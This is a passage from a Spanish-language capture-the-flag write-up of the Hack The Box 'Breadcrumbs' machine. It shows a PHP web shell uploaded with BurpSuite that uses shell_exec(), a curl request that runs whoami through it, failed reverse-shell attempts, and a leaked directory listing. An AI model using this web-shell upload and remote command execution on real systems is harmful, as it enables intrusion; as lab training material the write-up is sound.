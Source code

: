 Lo más probable es que el Windows Defender lo esté detectando como malicioso y borrandólo. Si lo intercepto con BurpSuite

Donde aplica el append para concatenarle el .zip, se lo cambio por test.php y en vez de utilizar system() para ejecutar comandos, utilizo shell_exec()

<img src="/writeups/assets/img/Breadcrumbs-htb/37.png" alt="">

Y obtengo ejecución remota de comandos

```null
curl -s -X GET "http://10.10.10.228/portal/uploads/test.php?cmd=whoami"
breadcrumbs\www-data
```

No puedo entablarme una reverse shell con netcat o Invoke-PowerShellTcp.ps1, no puedo ya que hay reglas de firewall implementadas. Como la versión de PHP es superior a la 5.3.0, no puedo utilizar herramientas como regorg para montarme un tunel.

Si no pongo ningún comando, aparece un error que leakea una ruta

<img src="/writeups/assets/img/Breadcrumbs-htb/38.png" alt="">

Encuentro un directorio extraño, pizzaDeliveryUserData

```null
Directory of C:\Users\www-data\Desktop\xampp\htdocs\portal

02/08/2021  05:37 AM    <DIR>          .
02/08/2021  05:37 AM    <DIR>          ..
02/08/2021  05:37 AM    <DIR>          assets
02/01/2021  10:40 PM             3,956 authController.php
02/01/2021  09:40 PM               114 composer.json
11/28/2020  12:55 AM             6,140 composer.lock
12/09/2020  03:30 PM               534 cookie.php
02/08/2021  05:37 AM    <DIR>          db
02/08/2021  05:37 AM    <DIR>          includes
02/01/2021  06:59 AM             3,757 index.php
02/01/2021  01:57 AM             2,707 login.php
01/16/2021  01:47 PM               694 logout.php
02/08/2021  05:37 AM    <DIR>          php
02/08/2021  05:37 AM    <DIR>          pizzaDeliveryUserData
02/01/2021  01:58 AM             2,934 signup.php
01/27/2023  08:55 AM    <DIR>          uploads
02/08/2021  05:37 AM    <DIR>          vendor
```